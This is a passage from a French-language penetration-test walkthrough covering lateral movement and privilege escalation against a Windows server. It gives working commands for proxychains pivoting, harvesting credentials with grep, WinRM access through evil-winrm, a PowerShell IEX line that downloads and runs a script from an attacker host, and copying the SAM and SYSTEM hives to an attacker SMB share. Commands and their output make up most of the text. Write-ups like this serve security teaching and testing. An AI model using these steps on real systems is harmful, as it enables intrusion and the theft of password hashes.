 Nous configurons ensuite proxychains sur notre machine d'attaque :

```bash
echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf
```

### Étape 5 : Mouvement latéral vers le serveur Windows (15 minutes)

Nous utilisons proxychains pour scanner le serveur Windows plus en détail :

```bash
proxychains nmap -sT -p 445,3389,5985 10.0.0.50
# Résultat : ports 445, 3389 et 5985 (WinRM) ouverts
```

La présence du port 5985 indique que WinRM est activé, ce qui pourrait permettre une connexion PowerShell à distance si nous avons des credentials valides.

Nous recherchons des credentials sur le serveur compromis :

```bash
grep -r "password" /var/www/
# Résultat : fichier de configuration avec credentials admin:P@ssw0rd123!
```

Nous tentons d'utiliser ces credentials pour accéder au serveur Windows via WinRM :

```bash
apt-get install -y python3-pip
pip3 install evil-winrm

proxychains evil-winrm -i 10.0.0.50 -u admin -p 'P@ssw0rd123!'
# Résultat : accès PowerShell obtenu!

# Dans la session WinRM
whoami
# Résultat : desktop-srv\admin (utilisateur local)

systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
# Résultat : Windows Server 2019 Standard
```

### Étape 6 : Élévation de privilèges sur le serveur Windows (10 minutes)

Dans notre session WinRM, nous vérifions les privilèges et groupes :

```powershell
whoami /all
# Résultat : l'utilisateur est membre du groupe "Backup Operators"
```

L'appartenance au groupe "Backup Operators" nous permet d'exploiter les privilèges de sauvegarde pour extraire des hachages NTLM :

```powershell
# Téléchargement de l'outil SeBackupPrivilege
IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.5/SeBackupPrivilegeUtils.ps1')

# Utilisation des privilèges de sauvegarde pour copier les ruches SAM et SYSTEM
Set-SeBackupPrivilege
Copy-FileSeBackupPrivilege C:\Windows\System32\config\SAM C:\Users\admin\Documents\sam.save
Copy-FileSeBackupPrivilege C:\Windows\System32\config\SYSTEM C:\Users\admin\Documents\system.save

# Transfert des fichiers vers notre machine d'attaque
# (via un serveur SMB temporaire sur notre machine)
net use Z: \\192.168.0.5\share
copy C:\Users\admin\Documents\sam.save Z:\
copy C:\Users\admin\Documents\system.save Z:\
```